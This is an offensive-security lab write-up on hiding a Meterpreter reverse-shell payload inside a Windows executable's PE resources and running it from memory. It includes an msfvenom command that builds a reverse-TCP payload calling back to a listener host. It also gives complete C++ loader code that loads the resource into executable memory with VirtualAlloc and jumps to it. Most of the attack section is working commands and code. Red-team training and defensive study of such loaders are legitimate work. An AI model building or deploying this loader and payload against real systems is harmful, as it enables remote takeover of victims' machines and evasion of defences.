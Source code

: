 # Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this \(just a snippet\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-33-31%20%281%29.png)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/_RastaMouse) tweet:

![](../../.gitbook/assets/screenshot-from-2019-04-21-13-13-14.png)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-37-31.png)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-42-31.png)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call \(shown later in the code\):

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-43-59.png)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-45-49.png)

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-07-17.png)

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource:

![](../../.gitbook/assets/screenshot-from-2019-04-22-17-35-35.png)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
    // IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
    // METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

    void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcodeResouceData, shellcodeSize);
    ((void(*)())exec)();

    return  0;
}
```

Compile and run the binary and enjoy the shell:

![](../../.gitbook/assets/peek-2019-04-21-12-30.gif)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" caption="" %}

